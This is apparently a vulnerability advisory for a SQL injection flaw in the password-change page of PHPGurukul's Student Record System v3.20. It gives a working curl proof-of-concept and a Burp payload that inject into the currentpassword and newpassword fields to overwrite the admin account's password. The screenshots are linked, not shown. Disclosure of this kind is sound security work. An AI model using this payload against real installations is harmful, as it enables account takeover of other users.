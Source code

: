 # SQL Injection in Student Record System Using PHP and MySQL v3.20

- Vendor : PHPGurukul
- Product : Student Record System Using PHP and MySQL
- Version : 3.20
- Official Website: https://phpgurukul.com/student-record-system-php/

- Related Code file: change-password.php
- Injection parameter: currentpassword, newpassword

## Vulnerability Description
The vulnerability is SQL Injection in Student Record System Using PHP and MySQL version 3.20
The currentpassword, newpassword parameters are vulnerable to SQL Injection when changing to a new password.
This vulnerability allows an attacker to inject a SQL query into the currentpassword, newpassword parameters to change the password of another user.

#### Impact Assessment 
This vulnerability allows an authenticated attacker to manipulate SQL queries during the password change process, potentially leading to:
- Unauthorized password changes for other user accounts

- Affected Endpoint : http://127.0.0.1:8888/change-password.php
- PoC
    ```
    curl -i -s -k -X POST \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -b "PHPSESSID=lg6rlbg3j0f1iaqfdvdvs9c4i3" \
    -d "currentpassword=' or id='1' -- -&newpassword=sqli' where id='1' -- -&confirmpassword=test&submit=Change" \
    "http://127.0.0.1:8888/change-password.php"
    ```

1. The account information for the current system looks like this:
   ![1-pentest-20250829-0116](https://github.com/user-attachments/assets/8caf9f4f-cd0a-4bfc-86a9-4340c6f8a74f)

2. Login:
    ![1-pentest-20250829-0110](https://github.com/user-attachments/assets/46251dff-51ba-4fd7-a0ec-b51fecefb3a5)
    ![2-pentest-20250829-0110](https://github.com/user-attachments/assets/e796008d-d0f0-4781-b65e-b098f0fa9da2)

3. Users can try to change the password:
    ![1-pentest-20250829-0112](https://github.com/user-attachments/assets/b8a69872-7c26-4a6f-b7e6-a913a8f4a312)


4. Intercept the traffic with burp suite and inject the SQL injection payload:
   `Payload: ' or id='1' -- -&newpassword=sqli' where id='1' -- -`
   ![2-pentest-20250829-0112](https://github.com/user-attachments/assets/e99e3fae-7c43-4e1f-bc34-b0732b4d1329)
   ![1-pentest-20250829-0120](https://github.com/user-attachments/assets/b37ca5e7-97ab-428e-83ef-43507c020d8d)


5. The password for the admin account was changed to the string 'sqli'.
   ![cve8888 localhost studentrecorddb tbl_login phpMyAdmin 5 2 1 2025-08-29 at 12 28 43 AM](https://github.com/user-attachments/assets/366c66a1-2fd2-42dc-8d65-9b071c7f50ef)

